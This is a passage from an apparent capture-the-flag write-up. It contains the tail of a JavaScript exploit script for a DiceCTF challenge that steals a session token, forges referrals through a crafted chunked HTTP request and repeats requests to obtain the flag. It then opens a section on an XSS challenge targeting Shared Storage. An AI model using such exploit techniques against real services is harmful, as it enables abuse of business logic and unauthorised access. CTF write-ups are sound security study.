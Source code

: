 ```javascript
    });
    const text = await res.text();
    return text;
};

const buy_flag = async (token) => {
    const res = await fetch(`http://${host}:${port}${buy_path}`, {
        headers: { Cookie: `token=${token}` },
    });
    const text = await res.text();
    return text;
};

new_socket.on("data", async (data) => {
    const res = data.toString();
    console.log(res);
    token = res.split("token=")[1].split("\n")[0].trim();
    console.log("token: " + token);
    const code = await get_code(token);
    const send_data = `name=testtesttest&refer=${code}`;
    new_socket.end(
        send_data.length.toString(16) + "\r\n" + send_data + "\r\n0\r\n\r\n"
    );
    create_referer(code);
    for (let i = 0; i < 65; i++) {
        await make_bail(token);
    }
    const home = await get_home(token);
    console.log("[HOME REQ]: " + home);
    const flag = await buy_flag(token);
    console.log("[FLAG REQ]: " + flag);
});

new_socket.on("end", () => {
    console.log("[New Socket]: Connection closed by server.");
});

new_socket.on("error", (err) => {
    console.error("[New Socket]: TLS Socket Error:", err);
});

// ChatGPT help me proxy from http://localhost:3000 to https://pyramid.dicec.tf:443 by socat TCP-LISTEN:3000,reuseaddr,fork SSL:pyramid.dicec.tf:443,verify=0
```
## nobin
This was an XSS challenge. The endpoint for XSS was given at `/xss` but the main thing here was that the secret for the flag was put in SharedStorage, which can only be access from restricted sources. Reading this [docs](https://developer.mozilla.org/en-US/docs/Web/API/Shared_Storage_API), I knew that: `you can only read shared storage data from inside a worklet` and `Output gates are URL Selection and Run`. I chose the URL Selection as the run was kinda hard to understand.
